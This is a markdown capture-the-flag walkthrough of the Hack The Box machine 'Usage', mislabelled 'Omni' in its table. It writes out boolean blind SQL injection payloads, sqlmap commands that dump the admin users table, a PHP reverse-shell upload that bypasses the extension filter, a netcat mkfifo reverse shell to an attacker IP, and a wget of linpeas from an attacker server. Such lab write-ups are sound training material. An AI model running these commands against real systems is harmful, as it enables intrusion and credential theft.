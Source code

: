 ```yaml
---
title: Walkthrough - Usage - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```



# Walkthrough - Usage, a Hack The Box machine

## About the machine

![Omni Machine Banner](img/omni.png)



| data       |                                                  |
| ---------- | ------------------------------------------------ |
| Machine    | Omni                                             |
| Platform   | Hackthebox                                       |
| url        | [link](https://app.hackthebox.com/machines/Omni) |
| OS         | Linux                                            |
| Difficulty | Easy                                             |
| Points     | 20                                               |
| ip         | 10.10.11.18                                      |



## Getting user.txt flag

### Enumeration

```bash
sudo nmap -sV -sC $ip -p-
```

Results:
 Port 22 and 80.


### Browsing the app

After entering in http://10.10.11.18, a dns error is displayed. The page is redirected to http://usage.htb.

I will add that line in my host resolver config file.

```bash
# testing for an existing file
echo "10.10.11.18    http://usage.htb" >> /etc/hosts
```

The application is simple. A Login pannel with a "Remember your password" link. An other links to an admin login pannel and a logout feature. Enumeration techniques also gives us some ideas about Laravel framework being in use.

After testing the login form and the remember your password form, I can detect a SQL injection vulnerability in the remember your password form.

Previously I registered a user lala@lala.com.

![Step](img/htb-usage6.png)

Payloads for manual detection:

```
lala@lala.com' AND 1=1;-- -
```

![Step](img/htb-usage6.png)


```
lala@lala.com' AND 1=1;-- -
```

![Step](img/htb-usage7.png)

Now, we know that we have a SQL injection, Blind with the AND Boolean technique, so we can use sqlmap with --technique flag set to BUT. We can also save time using the flag `--dbms` to indicate that is a mysql database:


```
sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog --tables --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog -T admin_users --dump --threads 3
```


#### Upload a reverse shell

The admin profile can be edited. The upload feature for the avatar image is vulnerable. 

First, I tried to upload a php file, but files extensions are sanitized client side.

![Step](img/htb-usage1.png)


Then, I uploaded a php reverse shell file using jpg extension. The file was uploaded but it was not executable.
![Step 2](img/htb-usage2.png)


Finally I used Burpsuite and intercepted the upload of my ivan.jpg file. During the interception I modified the extension to php.

![Step](img/htb-usage3.png)


Finally the reverse shell worked. But for a limited period of time (see steps 1 and 2). Time enough to set up a hook and establish a new connection (see steps 2 and 3) with a  [bash reverse shell](reverse-shells.md)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.49 4444 >/tmp/f
```



![Step](img/htb-usage4.png)


#### Getting user.txt

First, I spawned a shell:

```
SHELL=/bin/bash script -q /dev/null
```

and printed out the flag:

```
cat /home/dash/user.txt
```


## Getting root.txt

First, I perform a lateral movement to the other user present in the machine. For that I cat the /etc/passwd file and I run linpeas.sh script in the machine. 

### Lateral movement

Enumerate other users with access to a bash terminal:

```
cat /etc/passwd | grep -E ^*/bin/bash$
```

Results:

```
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
```


Upload the script [linpeas](linpeas.sh) to the victims machine.

```
################
# In the attacker machine
###############
# Download the script from the release page
curl https://github.com/peass-ng/PEASS-ng/releases/download/20240414-ed0a5fac/linpeas.sh

# Copy the file to the root of your apache server
cp linpeas.sh /var/wwww/html

# Start your server 
service apache2 start
# Turn it off once you have served your file

################
# From the victim machine
################
# Download the script from the release page or from the attacker server
wget http://attackerIP/linpeas.sh

# Run the script
chmod +x linpeash.sh
./linpeas.sh
```




Some interesting takeaways from the linpeas.sh results:

![Step](img/htb-usage8.png)


![Step](img/htb-usage9.png)
